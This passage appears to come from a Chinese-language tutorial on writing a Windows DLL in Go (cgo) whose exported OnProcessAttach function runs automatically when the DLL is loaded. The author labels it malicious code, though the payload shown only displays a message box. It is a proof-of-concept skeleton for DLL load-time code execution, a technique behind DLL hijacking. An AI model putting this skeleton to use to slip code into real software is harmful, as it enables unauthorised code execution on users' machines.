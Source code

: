 注意此处最好使用 `CreateThread` 来进行外部 Go 函数的调用，不然可能因为初始化 Go 运行时的问题导致死锁。

我们在该代码中 `DLL_PROCESS_ATTACH` 时异步调用了 OnProcessAttach，我们在 Golang 中实现这个恶意函数

#### Golang 恶意代码

我们现在来定义我们的恶意代码实现

```golang
package main

import "C"

import (
	"unsafe"
	"syscall"
)

// MessageBox of Win32 API.
func MessageBox(hwnd uintptr, caption, title string, flags uint) int {
	ret, _, _ := syscall.NewLazyDLL("user32.dll").NewProc("MessageBoxW").Call(
		uintptr(hwnd),
		uintptr(unsafe.Pointer(syscall.StringToUTF16Ptr(caption))),
		uintptr(unsafe.Pointer(syscall.StringToUTF16Ptr(title))),
		uintptr(flags))

	return int(ret)
}

// MessageBoxPlain of Win32 API.
func MessageBoxPlain(title, caption string) int {
	const (
		NULL  = 0
		MB_OK = 0
	)
	return MessageBox(NULL, caption, title, MB_OK)
}

// OnProcessAttach is an async callback (hook).
//export OnProcessAttach
func OnProcessAttach(
	hinstDLL unsafe.Pointer, // handle to DLL module
	fdwReason uint32, // reason for calling function
	lpReserved unsafe.Pointer, // reserved
) {
	MessageBoxPlain("OnProcessAttach", "OnProcessAttach")
}

func main() {
	// Need a main function to make CGO compile package as C shared library
}
```
